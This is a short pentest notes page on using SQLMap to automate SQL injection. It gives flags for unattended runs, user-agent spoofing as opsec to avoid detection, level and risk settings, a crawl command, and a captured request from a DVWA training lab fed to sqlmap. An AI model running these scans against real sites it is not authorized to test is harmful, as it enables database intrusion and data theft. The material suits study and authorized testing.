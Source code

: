 ### SQLMap

* The best tool out there for automating SQLi&#x20;
* Can be used with Zap or Burp as a proxy, standalone, or fed a request from Zap or Burp

#### Useful Automation Flags

* In order to not have to answer its prompts, append `--batch`&#x20;
* To put sqlmap in easy mode append `--wizard`

#### Opsec

* sqlmap uses `sqlmap` as its default user-agent, this is clearly not idea for anything that is not Hack The Box
* `--mobile` Imitate smartphone through HTTP User-Agent header&#x20;
* `--random-agent` Use randomly selected HTTP User-Agent header value
* `--user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36"` To use a specific user agent
* Sqlmap also has a risk and level value to control the thoroughness of its tests

```
--level=5 #most amount of tests, options are 1-5
--risk=3 #most risky, options are 1-3
```

#### Standalone Version

* Sqlmap will need to identify the injection points on the site&#x20;

```
sqlmap -u "http://sqli.org/" --forms --crawl=2
```

* This will allow it to spider the page at a depth of two and attempt injection on any identified injection points

#### Sqlmap with Burp/Zap Request

* Capture a request in which you provide input to the form box that you want tested in either zap or burp.
* Save off that request with all the headers to your local attack box

```
GET https://dvwa.prod.org/vulnerabilities/sqli/?id=1&Submit=Submit HTTP/1.1
Connection: close
Accept: */*
User-Agent: sqlmap/1.6.6.4#dev (https://sqlmap.org)
Host: dvwa.sec542.org
Cookie: PHPSESSID=lj1gugoprduur56u8lml5q373c; security=low
Cache-Control: no-cache
```

* Now feed that file into sqlmap&#x20;

```
sqlmap -r burp.request --batch
```
